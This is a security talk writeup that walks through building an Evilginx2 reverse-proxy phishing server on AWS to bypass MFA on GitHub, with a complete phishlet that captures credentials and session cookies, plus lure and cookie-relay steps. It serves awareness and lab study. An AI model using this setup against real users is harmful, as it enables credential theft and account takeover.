




This talk has been given at both OWASP Delaware and Cyberjutsu Day in 2023!

## VIDEO COMING SOON

I decided to work on this talk because as an IAM Consultant, I work with and implement MFA everyday. I was curious about how you could potentially break it. I wanted to be able to inform my clients of the potential risks of implementing MFA if they asked about them - most never do! 

Keep on reading to learn how to set up your own phishing server in AWS!

### Special thanks
Special thanks to David Rhoades and all of OWASP Delaware for their support in making this talk happen!

# Go phishing for $20 or less!
Wanna do some technical tomfoolery and set up your own phishing server? You've come to the right place! This tutorial should cost you about $20 or less because it involves registering a domain and setting up an Evilginx2 webserver in AWS. Forget the traditional "developing your own super-convincing fake webpage by copying over HTML" - we can use a reverse proxy instead! Traditionally, reverse proxies are used to protect sensitive web applications, but we can also use them for nefarious purposes. For more on reverse proxies, refer to [this article](https://www.cloudflare.com/learning/cdn/glossary/reverse-proxy/) and in a nefarious sense, [this article](https://www.trustbuilder.com/mfa-phishing-kit-reverse-proxy-cybersecurity#:~:text=Reverse%20proxy%20tools%20to%20bypass%20MFA&text=The%20reverse%20proxy%20offers%20the,interacting%20with%20the%20legitimate%20one.).

Note that as of writing, a newer version of Evilginx2 (our reverse proxy), evilginx3 has come out - but we're sticking to the older version for now. At some point, this article will be updated to reflect Evilginx3.

DISCLAIMER: Use the information in this article for **educational** purposes only. I am not responsible for any damages done as a result of the information provided here. 

## Choose a target to phish
In this example, we will be phishing an unsuspecting GitHub user - but I encourage you to try other websites too! 

### Create a dummy GitHub user account
1. Create a test GitHub user. Use a throwaway email. I recommend using [SimpleLogin](https://simplelogin.io/) to create email aliases that hide your email and are easily turned off so you can stop getting those pesky marketing emails once you're done!
2. Go to settings > Password and authentication > Enable two-factor authentication. 
3. Scan the QR code using your prferred authenticator app, such as Google Authenticator - to set up MFA for the user. 

### (NOT RELEVANT ANYMORE) Set up your target lab
The original target was OneLogin for this talk but due to time constraints, I couldn't get things working. Feel free to try set up this lab and do it on your own!

Fun facts here! If you ever end up working as a consultant in the IAM field (specifically with access management products) - the big vendors - Okta, PingIdentity, OneLogin - all use similar terminology and steps to set up the same functionality. Once you learn one product you can very easily pick up another! 
1. Go [here](https://www.onelogin.com/free-trial) to start a free OneLogin trial. Use a throwaway email. I recommend using [SimpleLogin](https://simplelogin.io/) to create email aliases that hide your email and are easily turned off so you can stop getting those pesky marketing emails once you're done! Enter in whatever fake info you want in the forms that follow. 
2. Follow the instructions in the activation email to activate your account. 
3. Add a test user in OneLogin. In the admin console go to Users > Users > New User. Add a first name, last name, and an email address. Create another dummy email address for this user that's a valid one you can send and receive emails from. Add a username too! Once you're done, save the user. 
4. Set up your security factors so users are prompted to login with MFA and not just a password. Go to Security > Authentication Factors > New Auth Factor. Select OneLogin Protect. Save the factor. 
5. Set up a security policy. Go to Security > Policies > New User Policy. Name the policy "Require OneLogin Protect". Go the MFA tab on the lefthand menu. Check the "OTP Auth Required" and "OneLogin Protect" boxes. Scroll down. Under enforcement settings, set "OTP Required For" to "All users" and "OTP required at" to "At every login". 
6. Assign the policy to your test user. Go to Users > Users and select your user. Go to More Actions > Change Password. Set a password for the user. On the lefthand menu, go to Authentication > User Security Policy > Assign your newly created policy from the dropdown menu. Save your changes.
7. Try to log in as the user now. Open an icognito window, visit your OneLogin trial tenant URL, and try to log in. Set up the MFA as prompted. You may need to install OneLogin protect on a mobile device. 

## Find an evil domain
1. Create a namecheap account. Bonus points if you set up MFA for this! 
2. Find and set up your desired domain. This process is pretty straightforward. You don't really need any of the addons they offer you. For demonstration purposes, I picked what's cheap - but you can choose any domain you like! Make it convincing. You can use "Beast Mode" in namecheap to set up a filter to choose domains that are $2 or less.  I chose the domain onceloggedin.click
3. Register your domain. We will revisit this later.

## Set up your phishing server 
For reference: https://help.evilginx.com/docs/getting-started/deployment/remote

### Initial EC2 instance setup
1. Create an AWS account. Follow the steps [here](https://docs.aws.amazon.com/accounts/latest/reference/manage-acct-creating.html).
2. Log into the [AWS Console](https://aws.amazon.com/). Set up MFA if you wish! 
3. In the search bar, search for and select "EC2." On the dashboard click "Launch Instance." 
4. Name your EC2 instance **gasp** whatever you want!
5. Find and select the official Kali linux image for your EC2 instance.
6. Choose your instance type. According to the Evilginx documentation, you can get away with the free tier - but for better performance I prefer to select t2.medium. It's totally up to you!
7. Create a new keypair so you can access the instance. 
8. Under network settings, keep the default VPC. 
9. Under "Firewall" allow SSH traffic ONLY from your IP. Allow HTTPS traffic from the internet. 
10. Under "Configure Storage" 12GB should be plenty. Launch the instance! 
11. On your dashboard, the instance should begin to run. Select the instance. Find the "Security" tab towards the bottom the screen. Click the name of the security group. It should be in blue and look something like "sg-xxxxx". 
12. When you click the group, select "Edit Inbound Rules." Add a rule for DNS UDP traffic on port 53. . Save your changes.
13. Add additional inbound rules to ensure that evilginx works properly. See the screenshot below: 
14. Create an elastic IP address for your instance. This ensures that the IP address will stay static so you can stop and start your evilginx server without having to change A recrods. Follow the steps to create an elastic ip [here](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/elastic-ip-addresses-eip.html).
15. Now we will link our evil domain to our EC2 instance. Refer to the steps [here](https://docs.aws.amazon.com/Route53/latest/DeveloperGuide/routing-to-ec2-instance.html) to do the setup. Otherwise, we'll be going over how to do this below. 
16. Visit the [Route 53](https://console.aws.amazon.com/route53/) console. On the lefthand menu, click "Hosted Zones." Create a new hosted zone.  Enter your domain name and a description. Keep the defaults. 
17. Select your hosted zone. Click "Create Record". Add some A records, and in the value box, enter the Public IPV4 address of your EC2 instance. Create the record. You should have two A records that resemble the following: 
18. Log into your namecheap dashboard. Manage your domain. Under nameservers, select "Custom DNS." Copy the nameservers from the NS Record for your hosted zone in AWS to the Custom DNS values in Namecheap. 

### Evilginx installation
1. Connect to the EC2 instance using SSH. You can click on the instance and click on the "Connect" button. Under the SSH tab, you can find a sample command for connecting to your instance using your private key. If you need help and have never connected via SSH before, see [this article](https://www.digitalocean.com/community/tutorials/how-to-use-ssh-to-connect-to-a-remote-server).
2. Run the following commands for setup:

```
sudo apt-get update

sudo apt-get upgrade

sudo apt install make
sudo apt install make-doc

wget https://go.dev/dl/go1.19.6.linux-amd64.tar.gz

sudo tar -C /usr/local/ -xzf go1.19.6.linux-amd64.tar.gz

sudo nano /etc/profile
# add this line to the end of /etc/profile
export PATH=$PATH:/usr/local/go/bin

source /etc/profile
go version

git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
git reset --hard 511860c
make
```
3. In the phishlets directory, edit the github.yaml file to match the following: 

```
author: '@audibleblink'
min_ver: '2.3.0'
proxy_hosts:
  - {phish_sub: '', orig_sub: '', domain: 'github.com', session: true, is_landing: true}
  - {phish_sub: 'api', orig_sub: 'api', domain: 'github.com'}
  - {phish_sub: 'github', orig_sub: 'github', domain: 'githubassets.com'}

sub_filters:
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: 'https://{hostname}', replace: 'https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: 'https://{hostname}/sessions/two-factor', replace: 'https://{hostname}/sessions/two-factor', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: '{hostname}', replace: 'hostname', mimes: ['text/html', 'application/json', 'application/javascript']}


auth_tokens:
  - domain: '.github.com'
    keys: ['logged_in', 'dotcom_user']
  - domain: 'github.com'
    keys: ['user_session', '_gh_sess']

credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'

login:
  domain: 'github.com'
  path: '/login'
```

## Running evilginx2
1. Run: ```  sudo ./bin/evilginx -p phishlets ``` to start up evilginx2. 
2. In the evilginx2 console run the following commands for the initial configuration:
```
config domain your.domain
config ip <your public ip for the EC2 instance>
```
3. Now setup the phishlet. Link it up to the hostname you want to use and enable it! 
```
phishlets hostname github your.domain
phishlets enable github
```
Your output should resemble the following:

Trying to use newer domains might not work right away. You might have to wait up to 72 hours in order for the A records to populate across DNS. It usually shouldn't take that long, but have some patience if you've followed all of the steps and things still don't seem to  be working.

4. Create the lure. Run: ``` lures create github ``` You will get an id number for the lure. It usually starts at 0 by default. 


5. To ensure there is no redirect url on a successful authenticationa attempt run: ``` lures edit <id> redirect_url "" ```


6. To get your phishing url: ``` lures get-url <id>```

Now you that you have a phishing url, I leave it up to you to think about how you would get the victim to click on this URL in a real engagement. To get you started, check out [gophish](https://getgophish.com/) - a free, open-source phishing simulator. Additionally, namecheap allows you to set up a mailbox with your desired domain so you can try to send out phishing emails FROM the domain you set up earlier. Go forth and tinker!

From here, you can attempt to visit your newly created phishing url in a fresh web browser. Authenticate as the user, MFA included, and note that Evilginx captures user credentials and session cookies. Additionally, if the user never checks their address bar at the top - they are none the wiser! You can try to capture the authentication requests and simply relay them through another web browser - I've achieved this using a combination of Burp Suite and OWASP ZAP. Evilginx2 has a proxy feature you can configure for this purpose. At the time of writing - I need to verify if the Burp + ZAP combo still works. 

Session cookies can be relayed into another browser so you can log in as that user, sometimes even from a completely different geographic location. If a malicious actor has set up a phish via a reverse-proxy, and gets the unsuspecting victim to authenticate - they can effectively monitor everything the user is doing - in plaintext!

## Can you phish a security key? 
No. Security keys are origin-bound - meaning only the original site can try to authenticate with the key. For more information see [here](https://www.yubico.com/blog/creating-unphishable-security-key/).

## Cleanup
To avoid extra charges, under instance state > STOP the instance in your AWS EC2 dashboard. Avoid terminating the instance. That completely deletes it!

---
### Resources
- Need the slides? Find them [here](../assets/01-hacking-mfa-talk-slides.pdf)!
- Book: [Hacking Multifactor Authentication](https://www.amazon.com/Hacking-Multifactor-Authentication-Roger-Grimes/dp/1119650798) by Roger Grimes
- Software: [Evilginx 2](https://github.com/kgretzky/evilginx2) by kgretzky
- Software: [OWASP ZAP](https://owasp.org/www-project-zap/) by OWASP
- Software: [Burp Suite Community](https://portswigger.net/burp/communitydownload) by Portswigger
- Slide design by [slidesgo.com](https://slidesgo.com/)

